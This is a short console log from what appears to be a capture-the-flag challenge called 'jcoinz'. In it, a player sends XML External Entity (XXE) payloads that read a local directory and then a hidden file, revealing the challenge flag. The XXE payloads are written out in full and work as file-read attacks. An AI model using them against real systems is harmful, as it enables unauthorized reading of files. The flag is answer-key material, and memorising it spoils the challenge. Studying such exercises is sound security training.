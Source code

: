     [?] Action: 2
    [-] Decreased the account of "billy" by 1337
    [?] XML Message: <?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [<!ELEMENT foo ANY >  <!ENTITY xxe SYSTEM "file:///home/jcoinz" >]><foo>&xxe;</foo>
    [+] Your secret xml message: <foo>9f40461baba9bf00ba9174beeeb9b8a80c0ffba6
    jcoinz.jar
    </foo>

    1 - sends jcoinz to charity
    2 - send a secret xml message to the admin
    Your name: billy
    Your amount of jcoinz: 2147479630

    [?] Action: 2
    [-] Decreased the account of "billy" by 1337
    [?] XML Message: <?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [<!ELEMENT foo ANY >  <!ENTITY xxe SYSTEM "file:///home/jcoinz/9f40461baba9bf00ba9174beeeb9b8a80c0ffba6" >]><foo>&xxe;</foo>
    [+] Your secret xml message: <foo>
    You did it!

    Greets, MuffinX

    HV16-y4h0-g00t-d33m-c01n-zzzz

    If you liked this challenge, tweet me: https://twitter.com/muffiniks
    </foo>

    1 - sends jcoinz to charity
    2 - send a secret xml message to the admin
    Your name: billy
    Your amount of jcoinz: 2147478291

    [?] Action:


